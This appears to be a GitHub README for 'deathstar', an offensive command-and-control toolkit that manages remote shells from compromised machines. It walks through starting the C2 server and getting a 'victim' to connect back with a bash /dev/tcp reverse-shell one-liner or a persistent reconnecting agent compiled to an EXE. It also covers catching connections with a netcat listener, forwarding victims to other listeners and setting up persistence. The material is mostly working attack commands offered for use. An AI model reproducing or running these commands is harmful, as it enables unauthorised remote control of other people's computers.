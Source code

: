 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a terminal based C2 connection manager.

`stardestroyer.py` is one option of calling into the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.


![image](https://github.com/user-attachments/assets/2276420d-6134-48a0-8e2e-5e6a0ddef95b)


# Download deathstar

```git clone github.com/bwithe/deathstar```

# Start C2
`python3 deathstar-web.py`

OR 

`python3 deathstar-term.py`

# Open link in web browser

```firefox 127.0.0.1:5000```

# Have Victim connect to C2 
Linux / MacOS

- This will drop the moment the C2 server 'drops'
`bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`

OR

- This will continue to connect to the C2 server even after it 'drops'
`./stardestroyer.py &`

# Start your listener 
`nc -nvlp 4444`

# Forward the connection to another listener
On the webpage, type the IP of the listening device, and then click forward.

OR

On the terminal, list the connections.

Select `2)` to forward.

Specify the `ID` of the `VICTIM` you'd like to forward.

Then, type the IP of your `LISTENING` device.

# Catch the connection
Once you've caught the connection, begin setting up persistence.

# Wash, rince, repeat.

